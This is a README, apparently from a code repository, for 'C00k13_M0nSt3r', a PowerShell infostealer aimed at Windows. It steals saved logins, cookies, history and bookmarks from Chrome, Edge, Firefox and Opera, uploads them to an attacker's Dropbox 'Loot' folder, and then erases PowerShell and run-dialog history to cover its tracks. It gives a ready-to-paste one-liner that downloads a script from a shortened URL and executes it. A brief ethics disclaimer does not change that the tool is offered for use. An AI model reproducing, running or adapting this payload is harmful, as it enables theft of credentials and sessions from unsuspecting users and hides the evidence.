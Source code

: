 # C00k13_M0nSt3r

## Overview
This script is designed to extract saved logins, cookies, and browser data from Google Chrome, Microsoft Edge, Mozilla Firefox, and Opera browsers. The extracted data is then uploaded to Dropbox in a new folder named "Loot," followed by a subfolder named after the username associated with the data.

## Features
- Extracts saved logins and cookies from Google Chrome.
- Retrieves saved logins and cookies from Mozilla Firefox.
- Captures browser history and bookmarks from Chrome, Edge, Firefox, and Opera.
- Uploads the extracted data to Dropbox for remote access.

## Usage
1. Update the Dropbox token in the script by replacing `'INSERT-YOUR-DROPBOX-TOKEN'` with your actual Dropbox token.
2. Run the script in PowerShell using the provided payload: $db = 'INSERT-YOUR-DROPBOX-TOKEN'; irm tinyurl.com/488cxscc | iex

## Supported Platforms
- Windows 10/11

## Instructions
1. The script grabs Google Chrome data (Login Data, Cookies, and Local State) and compresses it into a zip file.
2. Firefox data (cookies, saved logins) is searched for and compressed into a separate zip file.
3. Browser history and bookmarks are collected from Chrome, Edge, Firefox, and Opera and saved in a file named `--BrowserData.txt`.
4. All extracted data is uploaded to Dropbox using the provided Dropbox token.

## Credits
- Browser history and bookmarks extraction code adapted from [I-Am-Jakoby's browserData.ps1 script](https://github.com/I-Am-Jakoby/Flipper-Zero-BadUSB/blob/main/Payloads/Flip-BrowserData/browserData.ps1).

## Version
1.0

## Author
Created By: 0D1NSS0N

## Cleanup
After data exfiltration, the script performs cleanup by deleting temporary files, removing run dialog and PowerShell history, and emptying the recycling bin.

## Disclaimer
Use this script responsibly and only for ethical purposes. Unauthorized access and data exfiltration are against the law.

**Note:** Please be cautious while handling sensitive information and respect privacy and legal regulations.

